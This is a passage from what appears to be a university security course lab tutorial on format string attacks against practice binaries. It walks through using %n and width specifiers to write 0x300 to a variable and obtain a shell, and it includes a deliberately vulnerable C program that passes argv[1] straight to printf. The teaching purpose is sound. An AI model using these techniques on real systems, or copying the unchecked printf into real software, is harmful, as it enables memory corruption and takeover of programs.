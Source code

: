 In the last run we get the `4141414141414141` representation of `AAAAAAAA`.
That means that, if we replace the final `%lx` with `%n`, we will write at the address `0x4141414141414141` the number of characters processed so far:

```console
$ echo -n '7fffffffdcc07fffffffdcc01f6022997ffff7fd44c0786c6c25786c6c25786c6c25786c6c25786c6c25786c6c25786c6c25786c6c25786c6c25786c6c25786c6c25786c6c25786c6c25786c6c2540000a' | wc -c
162
```

We need that number to be `0x300`.
You can fine tune the format string by using a construct such as `%32llx` to print a number on `32` characters instead of a maximum of `16` characters.
See how much extra room you need and see if you reach `0x300` bytes.

The construct needn't use a multiple of `8` for length.
You may use the `%32llx` or `%33llx` or `%42llx`.
The numeric argument states the length of the print output.

After the plan is complete, write down the attack by filling the `TODO` lines in the `exploit.py` solution skeleton.

When sending your exploit to the remote server, adjust this address according to the binary running on the remote endpoint.
The precompiled binary can be found in [the CNS public repository](/courses/cns/resources/repo "cns:resources:repo").

After you write 0x300 chars in v, you should obtain shell

```console
$ python exploit64.py
[!] Could not find executable 'basic_format_string' in $PATH, using './basic_format_string' instead
[+] Starting local process './basic_format_string': pid 20785
[*] Switching to interactive mode
                                     7fffffffdcc0  7fffffffdcc01f60229b7ffff7dd18d03125786c6c393425786c6c25786c6c34786c6c25786c6c25786c6c25786c6c25786c6c25786c6c25786c6c25786c6c25786c6c25786c6c25a6e25
$
```

## Extra: Format String Attack

Go to the `04-format-string/` subfolder.
In this task you will be working with a **32-bit binary**.

The goal of this task is to call `my_evil_func` again.
This task is also tutorial based.

```c
int main(int argc, char *argv[])
{
    printf(argv[1]);
    printf("\nThis is the most useless and insecure program!\n");
    return 0;
}
```
